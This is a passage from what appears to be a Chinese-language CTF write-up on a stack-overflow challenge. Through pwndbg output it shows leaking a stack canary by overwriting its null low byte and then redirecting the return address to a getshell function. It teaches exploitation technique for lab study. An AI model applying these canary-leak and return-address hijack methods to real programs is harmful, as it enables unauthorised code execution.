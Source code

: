 ```asm
07:0038│          0x7ffd97aa0448 —▸ 0x557c8443aa6a ◂— mov    eax, 0
Breakpoint *(0x557c8443a000+0xA08)
pwndbg> canary
$1 = 0
canary : 0xb3012605fc402a00
pwndbg>
```

canary 在 rbp - 0x8 的位置上, 可以看出此时 canary 的低位已经被覆盖为 0x61, 这样只要接收 'a' * (0x30 - 0x8 + 1) 后的 7 位, 再加上最低位的 '\0', 我们就恢复出程序的 canary 了

#### 覆盖返回地址
有了 canary 后, 就可以通过第二次的栈溢出来改写返回地址了, 控制返回地址到 getshell 函数即可, 我们先看一下没溢出时的返回地址

```asm
0x000055dc43694a1e in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 RAX  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 RBX  0x0
 RCX  0x7f206c6696f0 (__write_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x60
 RDI  0x0
 RSI  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0x7f206cb22700 ◂— 0x7f206cb22700
 R9   0x3e
 R10  0x73
 R11  0x246
 R12  0x55dc43694830 ◂— xor    ebp, ebp
 R13  0x7fff9aa3b050 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
 RSP  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 RIP  0x55dc43694a1e ◂— call   0x55dc436947f0
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
   0x55dc43694a08    call   0x55dc436947e0
 
   0x55dc43694a0d    lea    rax, [rbp - 0x30]
   0x55dc43694a11    mov    edx, 0x60
   0x55dc43694a16    mov    rsi, rax
   0x55dc43694a19    mov    edi, 0
 ► 0x55dc43694a1e    call   0x55dc436947f0
 
   0x55dc43694a23    mov    eax, 0
   0x55dc43694a28    mov    rcx, qword ptr [rbp - 8]
   0x55dc43694a2c    xor    rcx, qword ptr fs:[0x28]
   0x55dc43694a35    je     0x55dc43694a3c
 
   0x55dc43694a37    call   0x55dc436947c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rax rsi rsp  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│              0x7fff9aa3af48 ◂— 0xbfe0cfbabccd2861
06:0030│ rbp          0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
07:0038│              0x7fff9aa3af58 —▸ 0x55dc43694a6a ◂— mov    eax, 0
pwndbg> x/10i (0x0A3E+0x55dc43694000) 
   0x55dc43694a3e:	push   rbp
   0x55dc43694a3f:	mov    rbp,rsp
   0x55dc43694a42:	lea    rdi,[rip+0xd7]        # 0x55dc43694b20
   0x55dc43694a49:	call   0x55dc436947d0
```